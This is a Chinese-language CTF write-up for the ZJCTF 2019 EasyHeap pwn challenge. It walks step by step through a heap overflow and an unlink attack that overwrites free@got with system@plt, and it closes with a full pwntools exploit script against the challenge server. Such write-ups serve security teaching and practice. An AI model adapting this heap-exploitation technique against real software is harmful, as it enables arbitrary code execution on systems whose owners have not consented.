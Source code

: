 ```yaml
---
title: ZJCTF 2019 EasyHeap
tags: [ctf-pwn,exp]
date: 2022-11-29 15:09:00
excerpt: unlink 漏洞例题
---
```


#### 题目链接

<https://buuoj.cn/challenges#[ZJCTF%202019]EasyHeap>

#### 漏洞

很明显在`ceate_heap`中size并没有存下来，然后`edit_heap`时也是用户自己输入size来编辑

因此可以溢出

#### 利用

checksec发现没有开启PIE，heaparray的地址可以直接使用

1. 首先申请三个chunk

   ```python
   add(0x90,b"MMMM")
   add(0x90,b"MMMM")
   add(0x20,b"/bin/sh\x00")
   ```

2. 构造一个unlink需要在第一个chunk内构造一个fakechunk

   ```python
   fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
   fake_chunk = fake_chunk.ljust(0x90,b'M')
   fake_chunk += p64(0x90) + p64(0xa0)
   edit(0,0x100,fake_chunk)
   ```

   ![](/img/[ZJCTF2019]EasyHeap/1.jpg)

   对于chunk 0，`fd = heaparray - 0x18` `bk = heaparray - 0x10`，unlink chunk 0 时会将heaparray[0]指向`heaparray - 0x18`

3. 这时delete(1)，会将chunk 1 和 fakechunk 合并起来放入 unsorted bin

   ![](/img/[ZJCTF2019]EasyHeap/2.jpg)

   查看heaparray地址上的值：
   
   ![](/img/[ZJCTF2019]EasyHeap/3.jpg)
   
   说明fakechunk成功完成unlink操作，heaparray[0]指向了0x6020c8
   
4. 这时edit(0)会从0x6020c8这个地址开始写，因此

   ```python
   payload = p64(0)*3 +p64(free_got)
   edit(0,0x20 ,payload)
   ```

   又一次覆盖了heaparray[0]，指向了`free@got`

5. 这时edit(0)会修改`free@got`的内容

   ```python
   edit(0,8,p64(system_plt))
   ```

   将其函数改为system函数的plt表

   > 因为system没有被调用过，不能直接改成system@got

6. delete(2)会调用free("/bin/sh")，而free函数被替换成了system，因此得到了shell

#### 完整exp

```python
from pwn import *
r = remote("node4.buuoj.cn",27679)
elf = ELF("./easyheap")
def add(size,content):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap:")
    r.sendline(content)
def edit(idx, size, content):
    r.recvuntil("Your choice :")
    r.sendline('2')
    r.recvuntil("Index :")
    r.sendline(str(idx))
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap : ")
    r.sendline(content)
def delete(idx):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil("Index :")
    r.sendline(str(idx))

heaparray_addr = 0x6020E0
system_plt = elf.plt['system']
free_got = elf.got['free']

add(0x90,b"MMMM")
add(0x90,b"MMMM")
add(0x20,b"/bin/sh\x00")
#gdb.attach(r)

fake_chunk = p64(0)+p64(0x91) + p64(heaparray_addr-0x18) + p64(heaparray_addr-0x10)
fake_chunk = fake_chunk.ljust(0x90,b'M')
fake_chunk += p64(0x90) + p64(0xa0)
edit(0,0x100,fake_chunk)
delete(1)
#gdb.attach(r)
payload = p64(0)*3 +p64(free_got)
edit(0,0x20 ,payload)
#gdb.attach(r)
edit(0,8,p64(system_plt))
delete(2)
r.interactive()
```

